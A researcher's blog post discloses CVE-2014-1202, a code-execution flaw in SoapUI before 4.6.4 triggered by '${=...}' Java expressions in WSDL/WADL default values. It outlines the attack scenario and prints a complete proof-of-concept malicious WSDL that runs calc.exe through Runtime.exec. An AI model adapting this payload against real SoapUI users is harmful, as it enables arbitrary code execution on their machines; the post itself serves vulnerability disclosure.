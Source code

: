 ```yaml
---
layout: post
title: SoapUI Code Execution Vulnerability - CVE-2014-1202
---
```


![](https://www.soapui.org/soapui/media/images/stories/homepage/Features/soapUI-logo.png)

In this blog post I will discuss a vulnerability I’ve found in the SoapUI product before version 4.6.4 ([CVE-2014-1202](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-1202)).

I discovered this vulnerability during a penetration test in which I saw that the SoapUI software allows the clients to execute a Java code on the local machine by putting a Java code inside the following tag:

  

${=**_JAVA CODE_**};

  
  
The vulnerability allows the attacker to execute the java code on the victim's machine, thereby putting in danger the SoapUI users, including developers, penetration testers, etc.

  

The SoapUI product allows users to open a SOAP / REST project and import  WSDL/WADL files that help the users to communicate with the remote server easily.

WSDL/WADL files are XML-based grammar that define the operations that a web service offers and the format of the request and response messages that the client sends to and receives from the operations.

In WSDL/WADL files, the file owner can determine the default values of some parameters. Thus, an attacker can impersonate a legitimate web service and inject a malicious Java code into a default value of one of the parameters, and spread it to SoapUI clients.

When a SoapUI client will load a malicious WSDL/WADL file to his project in the SoapUI software, and send a request containing the malicious Java code, the SoapUI will execute the malicious Java code on the victim's computer.

  

The attack scenario:

1. An attacker impersonates a regular web service with a malicious WSDL containing the malicious Java code.

2. The victim creates a new project in the SoapUI and loads the malicious WSDL.

3. The victim decides to send a request to the remote server, thus, the SoapUI executes the malicious Java code.

4. The attacker succeeds in executing malicious code in the victim's machine and will take it over.

  

A Proof of Concept (PoC) video can be found at the following link:

[http://www.youtube.com/watch?v=3lCLE64rsc0](http://www.youtube.com/watch?v=3lCLE64rsc0)

An example of a malicious WSDL file can be found at the following link:

```javascript
<!--Malicious WSDL File, SoapUI Code Execution Vulnerability CVE-2014-1202, Barak Tawily-->
<wsdl:definitions targetNamespace="http://example.companyInfo"
 xmlns:tns="http://example.companyInfo"
 xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/"
 xmlns:wsdlsoap="http://schemas.xmlsoap.org/wsdl/soap/"
 xmlns:wsdlmime="http://schemas.xmlsoap.org/wsdl/mime/"
 xmlns:xsd="http://www.w3.org/2001/XMLSchema">

 <wsdl:types>
  <xsd:schema elementFormDefault="qualified"
   targetNamespace="http://example.header">

   <xsd:element name="sampleHeader">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="priority" type="xsd:int"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>
  </xsd:schema>


  <xsd:schema elementFormDefault="qualified"
   targetNamespace="http://example.companyInfo">

   <xsd:element name="Payload_Request">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="Payload" default="${=Runtime.getRuntime().exec('calc.exe')};" type="xsd:string"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>

   <xsd:element name="Payload_RequestResult">
    <xsd:complexType>
     <xsd:all>
      <xsd:element name="result" type="xsd:float"/>
     </xsd:all>
    </xsd:complexType>
   </xsd:element>
  </xsd:schema>
  
  
 </wsdl:types>

 <wsdl:message name="Payload_RequestRequest">
   <wsdl:part name="part1" element="tns:Payload_Request"/>
 </wsdl:message>

 <wsdl:message name="Payload_RequestResponse">
  <wsdl:part name="part1" element="tns:Payload_RequestResult"/>
  <wsdl:part name="part2" type="xsd:string"/>
  <wsdl:part name="part3" type="xsd:base64Binary"/>
 </wsdl:message>

 <wsdl:portType name="CompanyInfo">
  <wsdl:operation name="Payload_Request">
   <wsdl:input message="tns:Payload_RequestRequest"
               name="Payload_RequestRequest"/>
   <wsdl:output message="tns:Payload_RequestResponse"
                name="Payload_RequestResponse"/>
  </wsdl:operation>
 </wsdl:portType>

 <wsdl:binding name="Exploit" type="tns:CompanyInfo">
  <wsdlsoap:binding style="document" transport="http://schemas.xmlsoap.org/soap/http"/>

  <wsdl:operation name="Payload_Request">
   <wsdlsoap:operation soapAction=""/>
   <wsdl:input name="Payload_RequestRequest">
    <wsdlsoap:body use="literal"/>
   </wsdl:input>
   <wsdl:output name="Payload_RequestResponse">
    <wsdlsoap:body use="literal"/>
   </wsdl:output>
  </wsdl:operation>
 </wsdl:binding>

 <wsdl:service name="CompanyInfoService">
  <wsdl:port binding="tns:Exploit" name="SOAPPort">
   <wsdlsoap:address location="http://somewhere/services/CompanyInfoService"/>
  </wsdl:port>
 </wsdl:service>

</wsdl:definitions>
```


